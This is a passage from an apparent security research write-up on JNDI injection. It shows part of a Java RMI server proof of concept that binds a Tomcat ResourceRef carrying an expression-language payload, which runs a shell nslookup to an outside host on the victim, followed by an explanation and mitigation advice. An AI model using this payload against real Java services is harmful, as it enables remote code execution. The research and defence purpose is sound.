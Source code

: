 ```
	        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
	 
	        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
	        registry.bind("Object", referenceWrapper);
	    }
	}
	 

```

This server responds with a serialized object of 'org.apache.naming.ResourceRef', with all crafted attributes to trigger the desired behaviour on the client.

Then we trigger JNDI resolution on the victim Java process:

**new InitialContext().lookup("rmi://127.0.0.1:1097/Object")**

Nothing undesirable will happen when this object is deserialised. But since it still extends "javax.naming.Reference", the "org.apache.naming.factory.BeanFactory" factory will be used on the victim's side to get the'real' object from the Reference. **At this stage, a remote code execution via template evaluation will be triggered and the 'nslookup jndi.s.artsploit.com' command will be executed.**

The only limitation here is that the target Java application should have an "org.apache.naming.factory.BeanFactory" class from the Apache Tomcat Server in the classpath, but other application servers may have their own object factories with the dangerous functionality inside.

### Solution:

The actual problem here is not within the JDK or Apache Tomcat library, but rather in custom applications that pass user-controllable data to the "InitialContext.lookup()" function, as it still represents a security risk even in fully patched JDK installations. Keep in mind that other vulnerabilities (such as 'Deserialisation of untrusted data' for example) may also lead to JNDI resolution in many cases. Preventing these vulnerabilities by using a source code review is always a good idea.
